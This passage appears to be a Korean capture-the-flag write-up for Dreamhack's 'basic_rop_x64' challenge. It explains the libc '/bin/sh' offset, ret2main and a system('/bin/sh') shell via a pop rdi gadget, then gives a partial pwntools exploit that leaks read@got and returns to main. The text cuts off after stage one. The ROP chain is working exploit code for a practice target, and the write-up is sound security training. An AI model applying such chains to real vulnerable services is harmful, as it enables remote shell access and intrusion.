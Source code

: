 #### "/bin/sh" 주소 구하기
* "/bin/sh" = libc base + "/bin/sh" offset

#### ret2main
* write(1, read@got, 8)의 코드 이후 main 의 주소를넣어서 RET을 조작하면 main 으로 돌아올 수 있다.

#### 셸 획득
위에서 system 함수의 주소와 "/bin/sh" 문자열의 주소를 구했기 때문에, pop rdi; ret 가젯을 이용하면 system("/bin/sh")을 호출하여 셸을 획득할 수 있다.
익스플로잇 시 사용하는 가젯은 pwntools의 ROP 클래스의 메서드 함수인 find_gadget을 사용하여 구했다.

#### 최종 코드
<code>
	from pwn import *

	def slog(symbol, addr):
	    return success(symbol + ": " + hex(addr))

	#context.log_level = 'debug'

	p = remote('host3.dreamhack.games', 10263)
	#p = process("./basic_rop_x64")
	e = ELF("./basic_rop_x64")
	#libc = e.libc
	libc = ELF("./libc.so.6", checksec=False)
	r = ROP(e)

	read_plt = e.plt["read"]
	read_got = e.got["read"]
	write_plt = e.plt["write"]
	write_got = e.got["write"]
	main = e.symbols["main"]

	read_offset = libc.symbols["read"]
	system_offset = libc.symbols["system"]
	sh = list(libc.search(b"/bin/sh"))[0]

	pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
	pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

	# Stage 1
	payload:bytes = b'A' * 0x48

	# write(1, read@got, 8)
	payload += p64(pop_rdi) + p64(1)
	payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
	payload += p64(write_plt)

	# return to main
	payload += p64(main)
